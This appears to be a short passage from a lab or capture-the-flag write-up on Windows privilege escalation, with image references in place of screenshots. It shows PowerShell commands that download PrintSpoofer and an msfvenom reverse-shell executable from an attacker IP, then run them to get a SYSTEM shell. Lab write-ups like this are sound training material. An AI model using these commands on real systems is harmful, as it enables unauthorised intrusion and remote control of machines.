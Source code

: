 
![image42](../resources/cb17214c86c74c9fb6094334430077f4.png)

```bash
whoami /all

```

![image43](../resources/bff5e45c79904ca4883018ac173ef242.png)

- Using PrintSpoofer:
  
```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/PrintSpoofer.exe', 'C:\Users\edwardle.WINDCORP\Desktop\PrintSpoofer.exe')

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.24.66 LPORT=4445 -f exe -o reverse.exe

(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/reverse.exe', 'C:\Users\edwardle.WINDCORP\Desktop\reverse.exe')

.\PrintSpoofer.exe -c ".\reverse.exe"

```

![image44](../resources/9dbaf502c8704d0f9344ad6808975f47.png)

Got shell:

![image45](../resources/1875131d7a864aa29ca1e4d5489fa1e2.png)
